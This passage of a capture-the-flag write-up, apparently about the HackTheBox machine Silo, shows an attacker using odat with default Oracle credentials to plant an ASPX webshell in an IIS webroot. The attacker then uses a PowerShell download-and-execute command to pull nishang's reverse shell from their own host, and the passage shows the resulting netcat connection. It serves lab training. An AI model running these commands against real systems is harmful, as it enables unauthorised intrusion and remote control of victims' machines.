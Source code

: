 There was a webserver listening on 80, with the default iis page. Since we can
upload, let’s upload a webshell:

  * First, let’s verift that we can write to the webroot (and that it is in the default location):
    
        root@kali# odat dbmsadvisor -s 10.10.10.82 -d XE -U SCOTT -P tiger --sysdba --putFile C:\\inetpub\\wwwroot 0xdf.txt <(echo 0xdf was here)
    
    [1] (10.10.10.82:1521): Put the /dev/fd/63 local file in the C:\inetpub\wwwroot path (named 0xdf.txt) of the 10.10.10.82 server
    [+] The /dev/fd/63 local file was put in the remote C:\inetpub\wwwroot path (named 0xdf.txt)
    root@kali# curl http://10.10.10.82/0xdf.txt
    0xdf was here
    

  * Nice. What kind of shell uploads will work:

    * php shell uploads, but then gets a 404 on request
    * asp does the same
    * aspx…
    
        root@kali# odat dbmsadvisor -s 10.10.10.82 -d XE -U SCOTT -P tiger --sysdba --putFile C:\\inetpub\\wwwroot 0xdf.aspx /usr/share/webshells/aspx/cmdasp.aspx
      
    [1] (10.10.10.82:1521): Put the /usr/share/webshells/aspx/cmdasp.aspx local file in the C:\inetpub\wwwroot path (named 0xdf.aspx) of the 10.10.10.82 server
    [+] The /usr/share/webshells/aspx/cmdasp.aspx local file was put in the remote C:\inetpub\wwwroot path (named 0xdf.aspx)
    

![](https://0xdfimages.gitlab.io/img/silo-webshell-whoami.png)

## User Shell

Now with a functioning webshell, let’s get a real shell:

Grab a copy of nishang’s poweshell reverse shell and add the line to call it
at the bottom of the file:

    
    
    root@kali# cp /opt/powershell/nishang/Shells/Invoke-PowerShellTcp.ps1 .
    root@kali# tail -1 Invoke-PowerShellTcp.ps1
    Invoke-PowerShellTcp -Reverse -IPAddress 10.10.15.48 -Port 8084
    

Use SimpleHTTPServer to offer it, and then issue the following to the
webshell: `powershell IEX(New-Object
Net.WebClient).downloadString('http://10.10.15.48:8083/Invoke-
PowerShellTcp.ps1')`

Get a shell:

    
    
    root@kali# nc -lnvp 8084
    listening on [any] 8084 ...
    connect to [10.10.15.48] from (UNKNOWN) [10.10.10.82] 49168
    Windows PowerShell running as user SILO$ on SILO
    Copyright (C) 2015 Microsoft Corporation. All rights reserved.
    